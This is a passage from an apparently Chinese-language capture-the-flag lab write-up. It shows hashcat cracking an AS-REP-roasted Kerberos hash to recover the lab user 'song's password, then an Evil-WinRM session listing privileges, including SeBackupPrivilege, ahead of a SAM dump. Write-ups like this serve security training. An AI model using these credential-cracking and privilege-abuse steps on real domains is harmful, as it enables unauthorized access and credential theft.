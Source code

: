 ```bash
┌──(root㉿kali)-[/home/kali/thl/BIG]
└─# hashcat -a 0 -m 18200 as-rep.txt Skyisthelimit.txt
hashcat (v6.2.6) starting


$krb5asrep$23$song@BBR.THL:7778a3e5b83d24074528729cd8e104cf$ce7dbe4474a7db21b21809a7af5f3416786079bc76f6f780dbea54769b28b03d04ca645a378eeddce0bee8615211f36cfeba66c4bf4c3b7c4adcc74b474482a977105c2d8571ff3b2393b5a61e1292c8ffa7b801ce0d76f1ae4d540ccabd7430f1f67175812a94ca527b707fc07644e6f22d2cba60f0f6e280b4f0f7dc28817df23202d8b9b81ca5d9a0ad02dcbed0a7d87b797236a902051c44a83ebe97f603b741754f36b1cbed5d9dd71d3cd82017db227d6a8004af1bf4007877cdcc2e7af7c83e60304973c0dcb5fbb98cebbe59334307b935065b1a4abbba83b5bb82cdb409:Passwordsave@

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$song@BBR.THL:7778a3e5b83d24074528729c...cdb409
Time.Started.....: Fri Dec  6 11:30:12 2024 (0 secs)
Time.Estimated...: Fri Dec  6 11:30:12 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (Skyisthelimit.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   429.8 kH/s (0.07ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 201/201 (100.00%)
Rejected.........: 0/201 (0.00%)
Restore.Point....: 0/201 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> qwerty123456
Hardware.Mon.#1..: Util: 13%

```
成功得到 `song` 用户的密码 `Passwordsave@`

## 5. SAM转储
利用账户密码登录上去 看一下 `song` 用户的权限
```bash
*Evil-WinRM* PS C:\Users\TEMP.bbr\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled

```
